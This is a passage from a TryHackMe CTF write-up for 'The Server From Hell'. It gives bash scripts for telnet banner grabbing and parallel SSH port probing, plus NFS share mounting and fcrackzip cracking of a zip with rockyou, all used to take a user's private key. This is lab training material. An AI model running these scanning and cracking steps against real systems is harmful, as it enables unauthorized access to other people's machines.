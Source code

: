 # The Server From Hell - TryHackMe Writeup

## Description
The Server From Hell is a medium-level challenge on the TryHackMe platform. This lab stands out by encouraging the use of manually written scripts or adapting existing ones to capture the flags. Personally, I learned a lot while attempting this challenge and highly recommend it for anyone looking to improve their practical skills.

**Note:** Metasploit was not used during the solution of this machine. All exploitation and enumeration were performed manually to encourage deeper understanding of the underlying processes.

---

## Enumeration

As soon as we join the challenge, we are advised to "Start at port 1337 and enumerate your way.", so this is what we are going to do.

We can use telnet to establish a session to the machine:

![Telnet 1337](assets/telnet-1337.png)

The message states that we must find a trollface hiding in the banners of sessions of the first 100 port. Banners are the messages printed as the last line before the "Connection close by foreign host" message. So, let's create a script printing those lines from the connection of the first 100 ports. The script shall accomplish that through the following steps:
- Connect via telnet to the session (IP + port number)
- Sanitize the output, so that only the banner is printed
- Do the same for the next port until the port 100 is reached

Using AI, I created the following script:

```bash
#!/bin/bash

TARGET_IP="IP"
MAX_PORT=100

echo "Scanning ports 1 to $MAX_PORT on $TARGET_IP..."
echo "----------------------------------------"

for port in $(seq 1 $MAX_PORT); do
    echo -n "port $port: "
    
    output=$(telnet $TARGET_IP $port)
    echo $output | tail -n 1
    
    sleep 0.1
done

echo "----------------------------------------"
echo "Scan completed."
```

**Note:** I uploaded the script into the assets directory.


Create a simple .sh file and add the rights to execute it using the command `chmod +x NAME_OF_YOUR_SCRIPT.sh`. Afterwards, launch it ./NAME_OF_YOUR_SCRIPT.sh, and this is what you are going to see:

![Enumeration Scan](assets/enum-script-scan.png)


As we can see, one of the banners tells us to "go to port 12345", so let's do that:


![Port 12345](assets/12345-scan.png)

The banner of the session with port 12345 informs us about the NFS share available on the server. We can locate and mount the share using `nfs-utils` package, if you do not already have it, download it.


Using the showmount command with the key -e (Shows the export lists of the NFS server) we can list the available shares:

![ShowMount](assets/showmount.png)

The output indicates that the share /home/nfs is available, so let`s mount it to our device:
- Create a directory which will be used to mount the NFS share:
```bash
mkdir /mnt/nfs
```
- Mount the share to your device:
```bash
mount -t nfs server_ip:/home/nfs /mnt/nfs
```
- List the shared directory:
```bash
ls /mnt/nfs
```
- Copy the files in the share to your working directory.

- Unmount the share
```bash
umount /mnt/nfs
```

![NFS Mount](assets/nfs-mount.png)


The only file located on the share was `backup.zip`. Trying to unzip the archive, we can see that it is encrypted with a passkey:

![backup.zip](assets/backup.png)

Let's bruteforce our way in. There are multiple tools for that, however I used `fcrackzip` with a `rockyou.txt` wordlist. If you wish to use the same tool, here is the command:

```bash
frackzip -u -D -p /path/to/wordlist backup.zip
```

![Fcrackzip](assets/fcrackzip.png)

There it is! The passkey to the archive is **zxcvbnm**. Let's unzip it:

![unzipping](assets/unzip.png)

![List Hades](assets/ls-hades.png)

Listing the /home/hades directory reveals a .ssh directory containing:
- **authorized_keys** file: Stores public SSH keys that are allowed to authenticate and log in to the user account without a password.
- **flag.txt**: One of the challenge flags
- **hint.txt**: A hint we will examine
- **id_rsa**: The private SSH key used for secure authentication.
- **id_rsa.pub**: The public SSH key corresponding to id_rsa. It can be added to authorized_keys on remote systems to allow key-based authentication.

Viewing the `authorized_keys` file, we observe the following:

![authorized_keys](assets/authorized_keys.png)

The comment at the end indicates that these ID files belong to the user `hades`, and the hostname of the machine is `hell`. I will use `hell` as the hostname for all following steps. You can do the same or continue using the IP address; it makes no difference.

**Note:** If you wish to use the hostname option, make sure to add it to your `/etc/hosts` file.

Here is the first flag.

![flag.txt](assets/flag.txt.png)

Let's take a look at the hint.

![hint.txt](assets/hint.png)

The range 2500-4500 likely refers to possible SSH port numbers. Since we have the private key (`id_rsa`) and its public counterpart (`id_rsa.pub`) matches the entry in `authorized_keys`, we can authenticate to the server via SSH without a password. Our next step is to identify which port within the 2500-4500 range is running the SSH service.

There are multiple ways to approach this. We could use `nmap` with the `-sV` option to identify services running on the 2000 ports in the specified range, but this would take a considerable amount of time. Tools like `medusa` and `hydra` are commonly used for brute-forcing SSH passwords; however, in our case, we already have the private key (`id_rsa`), and these tools are not intended for identifying SSH ports.

In my opinion, the best way to proceed is to create our own script. This script should:
- Attempt to establish an SSH connection using the private key (`id_rsa`) to each port in the 2500-4500 range.
- Check for lines such as 'Connection reset' to omit the output of unsuccessful connections.
- Report which port successfully establishes an SSH connection.

Here is the script I made with the help of AI:

```bash
#!/bin/bash

# Configuration
HOST="hell"
USER="hades"
KEY_FILE="id_rsa"
START_PORT=2500
END_PORT=4500
THREADS=50

# Set proper key permissions
chmod 600 "$KEY_FILE"

echo "🔍 Scanning ports $START_PORT to $END_PORT for abnormal SSH responses..."
echo "Target: $USER@$HOST"
echo "--------------------------------------------"

# Function to test a single port
test_port() {
    local port=$1
    local output
    local last_line
    
    # Capture SSH output with timeout
    output=$(timeout 4 ssh -o BatchMode=yes -o ConnectTimeout=3 -o StrictHostKeyChecking=no \
                         -i "$KEY_FILE" -p $port $USER@$HOST 2>&1)
    
    # Get the last line
    last_line=$(echo "$output" | tail -1)
    
    # Check if last line does NOT contain typical connection reset/refused messages
    if ! echo "$last_line" | grep -q "Connection reset by\|Connection refused\|Connection closed\|No route to host"; then
        if [ -n "$last_line" ]; then
            echo "Port $port: $last_line"
        else
            echo "Port $port: No typical error message (different response)"
        fi
    fi
}

export -f test_port
export HOST USER KEY_FILE

# Scan all ports in parallel, wait for all to complete
seq $START_PORT $END_PORT | xargs -I {} -P $THREADS bash -c 'test_port "$@"' _ {}

echo "--------------------------------------------"
echo "Scan completed. Check above for ports with unusual responses."
```

**Note:** This script was also added to the assets directory.

The script also uses threads to decrease the wait time, as scanning 2000 ports can take a long time.

**Keep in mind:** For this script to work properly, you must specify all parameters in the configuration settings correctly. For example, if the `id_rsa` file is not located in the same directory as this script, provide the full path to the key file; otherwise, it will not work.

Now let's launch the script and observe the output:
